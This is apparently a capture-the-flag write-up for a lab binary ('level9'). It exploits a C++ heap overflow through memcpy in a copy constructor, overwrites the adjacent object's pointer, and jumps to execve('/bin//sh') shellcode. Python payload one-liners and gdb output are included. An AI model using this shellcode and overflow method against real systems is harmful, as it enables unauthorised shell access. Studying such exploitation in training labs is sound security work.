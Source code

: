 So this time we have something that looks like c++ instead of C
It makes two object allocations, of each 108 Bytes and then calls a copy constructor, and while our patter generator doesn't help us get an address, it helps us see that we can crash with a 109 input

109 crashes on unknown address while more crashes in main

We also see that there is no bash call or hidden functions, so we'll need a shellcode

There are also a bunch of functions related to the class N, and we can see that the copy constructor uses strlen as well as memcpy, this is our entry point.

Since the new operator creates heap objects, we should be able to do something about it.

The first object is created, the second after it, the vulnerable setAnnotation is called and afterwards we call the second object as a function.

Knowing this, we should be able to overwrite the content of the second object with the memcpy of the first and afterwards get it ;launched. So we need the offset

The first object is at 0x0804a008 and the second one at 0x0804a078
That's a 0x70 difference, or 112 

4 + 108
this* = 0x804a008
    112
    108 + 4
this00* = 0x08 04 a0 78

python -c 'print("A" * 112 +"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'


```gdb
Starting program: /home/user/level9/level9 $(python -c 'print("A" * 112 +"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")')

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info registers
eax            0x41414141	1094795585

```
So now the program crashes on the dereferencing step, we'll need to add the address to our second object for it to deref and then step into the shellcode 


python -c 'print("A" * 108 + "\x78\xa0\x04\x08"  +"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'